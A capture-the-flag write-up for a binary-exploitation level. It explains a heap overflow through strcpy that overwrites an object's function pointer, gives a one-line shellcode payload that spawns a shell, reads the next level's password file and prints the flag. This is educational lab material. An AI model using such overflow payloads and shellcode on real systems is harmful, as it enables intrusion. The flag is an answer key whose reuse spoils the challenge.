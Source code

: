 # Level 9

Here we use the behaviour of OOP creating objects. The new operator working like some sort of malloc will allocate some place in the memory which will be called later as a function since the first thing in the object is a function pointer. We can easily overflow with the strcpy in the setAnotation method in the first object into the second object to put a shellcode in it which will be executed then.

```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80" + "a" * 81 + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
```

**Flag:** `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
